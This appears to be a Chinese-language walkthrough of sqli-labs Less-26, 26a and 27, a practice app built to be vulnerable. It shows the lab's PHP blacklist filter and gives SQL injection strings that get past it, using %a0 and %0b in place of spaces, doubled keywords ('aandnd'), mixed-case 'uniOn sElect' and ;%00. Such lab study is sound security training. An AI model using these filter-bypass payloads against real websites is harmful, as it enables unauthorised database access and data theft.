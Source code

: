 
可以看到or，and，–，#，空格，/,\\都被替换掉，所以我们就必须绕过这些限制，比如空格可以用()包裹，+，/\*\*/等阿里绕过，其他同理。

    请求方式 get
    
    闭合方式 '
    
    攻击测试 ?id=-1'%a0union%a0select%a01,2,3%a0aandnd%a0'1'='1
    
    注入方式 联合，报错布尔，延时
    
        

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201218162112213.png)在这里我们使用%a0,来绕过空格。-
使用;%00来绕过注释符

## Less-26a

    请求方式 get
    
    闭合方式 ')
    
    攻击测试 ?id=-1')%a0union%a0select%a01,2,3%a0aandnd%a0'1'='1
    
    注入方式 联合，报错，布尔，延时
    
        

## less-27

过滤规则：

    function blacklist($id){
    $id= preg_replace('/[\/\*]/',"", $id);           //strip out /*
    $id= preg_replace('/[--]/',"", $id);             //Strip out --.
    $id= preg_replace('/[#]/',"", $id);              //Strip out #.
    $id= preg_replace('/[ +]/',"", $id);             //Strip out spaces.
    $id= preg_replace('/select/m',"", $id);          //Strip out spaces.
    $id= preg_replace('/[ +]/',"", $id);             //Strip out spaces.
    $id= preg_replace('/union/s',"", $id);           //Strip out union
    $id= preg_replace('/select/s',"", $id);          //Strip out select
    $id= preg_replace('/UNION/s',"", $id);           //Strip out UNION
    $id= preg_replace('/SELECT/s',"", $id);          //Strip out SELECT
    $id= preg_replace('/Union/s',"", $id);           //Strip out Union
    $id= preg_replace('/Select/s',"", $id);          //Strip out select
    return $id;
    }
    
        

对于union和select的过滤，我们可以使用双写或者大小写结合的方式进行绕过，或者使用报错，盲注等。

    请求方式 get
    
    闭合方式 '
    
    攻击测试 ?id=-1'uniOn%0bsElect%0b1,2,3 ||'1
    
    注入方式 联合，报错，布尔，延时
    